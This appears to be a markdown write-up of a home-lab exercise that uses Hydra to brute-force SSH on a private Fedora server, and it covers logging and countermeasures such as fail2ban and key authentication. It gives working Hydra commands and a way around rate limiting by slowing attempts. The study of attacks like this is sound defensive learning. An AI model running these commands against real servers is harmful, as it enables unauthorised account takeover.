

# Phase 4 – Network Services: SSH Brute-Force with Hydra

## Objectives

- Use Hydra to perform a dictionary attack against an SSH service
- Understand how network service brute-force differs from offline hash cracking
- Observe SSH rate-limiting and connection throttling behaviour
- Document countermeasures against brute-force attacks

## Lab Machines Used in This Phase

|    Machine    |        IP       |        Purpose         |
|---------------|-----------------|------------------------|
| Kali Linux    | 192.168.253.141 | Running Hydra          |
| Fedora Server | 192.168.253.149 | SSH brute-force target |

---

## Background – Online vs Offline Attacks

Previous phases focused on **offline attacks** – cracking hashes from a file without interacting with a live system. This phase introduces **online attacks** – directly attacking a live network service.

|   Type  |          Example          |         Speed        |     Risk of detection     |
|---------|---------------------------|----------------------|---------------------------|
| Offline | John cracking /etc/shadow | Very fast            | None                      |
| Online  | Hydra against SSH         | Slow (network bound) | High – logs every attempt |

---

## Step 1 – Target Setup on Fedora Server

A dedicated test user was created with an intentionally weak password.

```bash
# Kali Linux
ssh fifthace@192.168.253.149
```

```bash
# Fedora Server
sudo adduser testuser
sudo passwd testuser
# Password set to: letmein1
```

Verified SSH service is running:

```bash
# Fedora Server
sudo systemctl status sshd
```

Output confirmed: `Active: active (running)` on port 22.

```bash
# Fedora Server
exit
```

---

## Step 2 – First Attempt (Blocked by Rate Limiting)

The initial Hydra attack with 4 threads was blocked by the SSH server:

```bash
# Kali Linux
hydra -l testuser -P /usr/share/wordlists/rockyou.txt 192.168.253.149 ssh -t 4 -V
```

Result:
```
[ERROR] all children were disabled due too many connection errors
0 of 1 target completed, 0 valid password found
```

Fedora Server's SSH daemon throttles rapid connection attempts, causing all threads to fail simultaneously.

---

## Step 3 – Successful Attack (Throttled to 1 Thread)

Reducing to a single thread with a 3-second wait between attempts bypassed the rate limiting:

```bash
# Kali Linux
hydra -l testuser -P /usr/share/wordlists/rockyou.txt 192.168.253.149 ssh -t 1 -w 3 -V
```

- `-l testuser` – single username to attack
- `-P /usr/share/wordlists/rockyou.txt` – full rockyou wordlist
- `-t 1` – single thread to avoid triggering rate limiting
- `-w 3` – 3 second wait between attempts
- `-V` – verbose output, shows each attempt

---

## Step 4 – Results

Password `letmein1` was found at attempt **5018** out of 14,344,399.

```
[22][ssh] host: 192.168.253.149   login: testuser   password: letmein1
1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2026-05-11 12:19:44
```



**Key observations:**

- `letmein1` appears at position 5018 in rockyou.txt – common password with a number appended
- Initial 4-thread attack was blocked – SSH rate limiting is effective against aggressive attacks
- Single-thread attack with delays succeeded – persistence beats basic rate limiting
- Every attempt is logged in `/var/log/auth.log` or `journalctl` on the target

---

## Step 5 – Verifying the Attack from the Target Side

The attack is fully visible in the SSH logs on Fedora Server:

```bash
# Kali Linux
ssh fifthace@192.168.253.149
```

```bash
# Fedora Server
sudo journalctl -u sshd | grep testuser | tail -20
```

This shows every failed and successful authentication attempt – demonstrating why online attacks are easily detected.

---

## Countermeasures

|         Defence        |             Implementation            |                   Effectiveness                   |
|------------------------|---------------------------------------|---------------------------------------------------|
| fail2ban               | Bans IP after N failed attempts       | High – stops automated attacks                    |
| SSH key authentication | Disable password auth in sshd_config  | Very high – eliminates brute-force entirely       |
| AllowUsers directive   | Restrict which users can SSH          | Medium – reduces attack surface                   |
| Non-standard port      | Move SSH from 22 to high port         | Low – stops automated scans, not targeted attacks |
| Strong password policy | Minimum 12 chars, mixed case, symbols | Medium – slows cracking significantly             |

### Installing fail2ban on Fedora Server

```bash
# Fedora Server
sudo dnf install fail2ban -y
sudo systemctl enable --now fail2ban
sudo systemctl status fail2ban
```

---

## Summary

| Attack | Target | Tool | Result | Attempts |
|-----------------------------|-----------------|-------|---------|------|
| SSH brute-force (4 threads) | 192.168.253.149 | Hydra | Blocked | ~44  |
| SSH brute-force (1 thread)  | 192.168.253.149 | Hydra | Success | 5018 |

## Key Takeaways

|                What we learned                |                  Detail                  |
|-----------------------------------------------|------------------------------------------|
| Online attacks are slower than offline        | Network latency + server throttling      |
| Rate limiting helps but does not stop attacks | Single-thread attack bypassed it         |
| Weak passwords with numbers are still weak    | `letmein1` at position 5018 in rockyou   |
| All attempts are logged on the target         | Full visibility in journalctl/auth.log   |
| SSH key auth eliminates this attack entirely  | Best practice for any SSH-exposed server |

---

## Project Complete

All four phases of the Simple Password Cracker lab have been completed.

|                                   Phase                                 |                     Topic                      | Status  |
|-------------------------------------------------------------------------|------------------------------------------------|---------|
| [Phase 1 – Setup & Hash Basics](./phase-1-setup/)                       | Environment setup, hash basics, Python cracker | ✅ Done |
| [Phase 2 – Dictionary & Brute Force](./phase-2-dictionary-bruteforce/)  | SSH dictionary attack with rockyou.txt         | ✅ Done |
| [Phase 3 – Hashcat & John the Ripper](./phase-3-hashcat-john/)          | John the Ripper SHA-512 hash cracking          | ✅ Done |
| [Phase 4 – Network Services](./phase-4-network-services/)               | Hydra SSH brute-force against Fedora Server    | ✅ Done |
